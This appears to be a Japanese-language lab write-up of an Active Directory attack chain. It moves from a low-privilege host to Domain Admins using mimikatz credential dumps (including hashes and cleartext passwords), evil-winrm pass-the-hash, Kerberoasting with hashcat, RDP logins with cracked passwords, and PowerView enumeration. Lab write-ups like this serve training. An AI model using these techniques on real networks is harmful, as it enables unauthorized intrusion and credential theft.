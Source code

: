 # 主題
ここでは、Active Directoryを低い権限から最終的にDomai Adminsの権限まで昇格する一連の流れを示す。Active Directoryを中心に話す。

流れとしては

**10.11.1.123** (ただのUsersグループ) -> **10.11.1.121** (サービスアカウント) -> 10.11.1.122 (Server Personelのユーザ) -> **10.11.1.120** (Domain Admins)

の流れ。

# 10.11.1.123 (ただのUsersグループのメンバー)

（イニシャルシェルは、http://10.11.1.123/Books にアクセスして、My Business-Period(Bizuno Library 3.1.7)とわかる。エクスプロイトがある。**初めからすでにsystem権限の状態**）

mimikatzでハッシュを取り出しても、このマシン10.11.1.123のユーザxor-app59についてのハッシュしか出てこない。すなわちActive Directoryのドメイン中の他のユーザのハッシュはmimikatzでは出てこない
（そりゃそうか。Domain Adminsの人はACのトップであり、全ユーザを管理するから各ユーザのハッシュが出てくるのか。）

ちなみにmimikatzでは、このマシンxor-app59のAdministratorのハッシュが出た：

```
Authentication Id : 0 ; 337803 (00000000:0005278b)
Authentication Id : 0 ; 337803 (00000000:0005278b)
Session           : Interactive from 0
User Name         : Administrator
Domain            : XOR-APP59
Logon Server      : XOR-APP59
Logon Time        : 9/20/2021 2:39:23 AM
SID               : S-1-5-21-3051798232-4248191986-2095020414-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : XOR-APP59
         * NTLM     : 3fee04b01f59a1001a366a7681e95699
         * SHA1     : 3a8679fbfdfea03f2d3b5a1a1aa185cca912014b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
```

だからxor-app59（10.11.1.123）には次のようにPass the Hashできる：

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u Administrator -H 3fee04b01f59a1001a366a7681e95699  -i 10.11.1.123
```

ユーザグループだからか、サービスアカウントに対してSilver Ticket作ってサービスアカウントのシェルを起動させようとしたり、（AdministratorにOver pass the hashしようとしたり...<- いやいや、
このAdministratorって自分の、xor-app59のAdministratorのことだよ）したけど無理だった。

しかし、**Kerberoasができた！** （`Invoke-Kerberoast`でkrb5tgs型のハッシュをとって変換してhashcatでクラックするやつ）

-> これでshantewhiteというパスワードをゲット


# 10.11.1.121 (サービスアカウント）

xor-app23としてrdpじゃなくて、サービスアカウントSQLServer（PowerViewの`Get-NetUser`で表示）としてrdpでドメインをきちんと指定してアクセス：（10.11.1.121がxor-app23と分かったのは、
autoreconのnmapの結果）

```
┌──(kali㉿kali)-[~]
└─$ rdesktop -d xor.com -u SQLServer -p shantewhite 10.11.1.121
```

このSQLServerユーザでログインするとproof.txtが読める、すなわち10.11.1.121のadmin権限がある。（コマンドプロンプトを**Run as Administrator**として開ける）

**System権限にも関わらずmimikatzの`sekurlsa::logonpasswords`が効かない場合は、mimikatzの新しい方（mimikatz211.exe）を使え！** （<- 古いmimikatzにある問題だって。）


**daisyのrdpファイル発見。** mimikatzにより、daisyのパスワードが**XorPasswordIsDead17**と判明。


＜daisyについて＞

すでにsystem権限（IPアドレスは10.11.1.122)。

```
C:\Windows\system32>whoami
xor\daisy

C:\Windows\system32>ipconfig

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.1.122
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1
```

ここまでで、10.11.1.123, 10.11.1.121, 10.11.1.122を攻略できた。ということは、残すはDomain Adminsの10.11.1.123だ！

mimikatzはここら辺にしておいて、PowerViewでActive Directoryの調査を進める。最終ゴールはDoamin Adminsに行き着くこと！！

daisyはServer_Personelのメンバーだ。

```
PS C:\> Get-NetUser Daisy


logoncount            : 15
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=Daisy,OU=ServerPersonal,OU=xorUsr,DC=xor,DC=com
objectclass           : {top, person, organizationalPerson, user}
displayname           : Daisy
lastlogontimestamp    : 12/18/2021 6:58:37 AM
userprincipalname     : daisy@xor.com
name                  : Daisy
objectsid             : S-1-5-21-2293535422-227910474-3663383505-1119
samaccountname        : daisy
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 12/18/2021 2:58:37 PM
instancetype          : 4
usncreated            : 12882
objectguid            : 9a47b615-4ee5-4016-a9da-042819b57b5c
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=xor,DC=com
dscorepropagationdata : 1/1/1601 12:00:00 AM
memberof              : CN=Server_Personel,OU=xorGrps,DC=xor,DC=com
lastlogon             : 12/18/2021 6:59:02 AM
badpwdcount           : 0
cn                    : Daisy
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 5/20/2019 8:07:07 PM
primarygroupid        : 513
pwdlastset            : 5/20/2019 1:07:07 PM
usnchanged            : 57501
```

以下の出力より、Domain Adminsに上り詰めるには、**Albert**か**David**のクリデンシャルをゲットすれば良い

```
PS C:\> Get-NetGroup "Domain Admins"


grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 5/20/2019 8:13:09 PM
objectsid              : S-1-5-21-2293535422-227910474-3663383505-512
objectclass            : {top, group}
cn                     : Domain Admins
usnchanged             : 13265
dscorepropagationdata  : {5/20/2019 8:13:09 PM, 5/20/2019 7:58:00 PM, 1/1/1601 12:04:16 AM}
memberof               : {CN=Denied RODC Password Replication Group,CN=Users,DC=xor,DC=com, CN=Administrators,CN=Builtin,DC=xor,DC=com}
description            : Designated administrators of the domain
distinguishedname      : CN=Domain Admins,CN=Users,DC=xor,DC=com
name                   : Domain Admins
member                 : {CN=Albert,OU=AdminPersonal,OU=xorUsr,DC=xor,DC=com, CN=David,OU=AdminPersonal,OU=xorUsr,DC=xor,DC=com,
                         CN=Administrator,CN=Users,DC=xor,DC=com}
```

やはり！daisy（10.11.1.122）のとこにdavidのクリデンシャルがあった！！

```
Authentication Id : 0 ; 412579 (00000000:00064ba3)
Session           : Batch from 0
User Name         : david
Domain            : xor
Logon Server      : XOR-DC01
Logon Time        : 12/18/2021 7:45:13 AM
SID               : S-1-5-21-2293535422-227910474-3663383505-1123
        msv :
         [00000003] Primary
         * Username : david
         * Domain   : xor
         * NTLM     : d4738e8c31d43e0147f27894a20e6683
         * SHA1     : b1c2b2c766e7ad7688029ebc42fbacabae7fba72
         * DPAPI    : b712cb5d0fb0bdf9530c115100e2b574
        tspkg :
        wdigest :
         * Username : david
         * Domain   : xor
         * Password : (null)
        kerberos :
         * Username : david
         * Domain   : XOR.COM
         * Password : dsfdf34534tdfGDFG5rdgr
        ssp :
        credman :
```
